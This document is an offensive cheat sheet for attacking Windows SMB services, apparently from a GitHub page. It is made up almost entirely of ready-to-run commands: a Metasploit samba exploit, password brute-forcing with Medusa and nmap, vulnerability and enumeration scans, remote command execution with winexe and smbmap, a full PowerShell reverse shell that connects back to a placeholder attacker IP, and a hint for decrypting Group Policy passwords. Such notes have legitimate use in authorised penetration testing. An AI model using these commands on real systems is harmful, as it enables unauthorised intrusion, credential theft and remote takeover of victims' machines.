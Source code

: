```
# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln 
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "
```
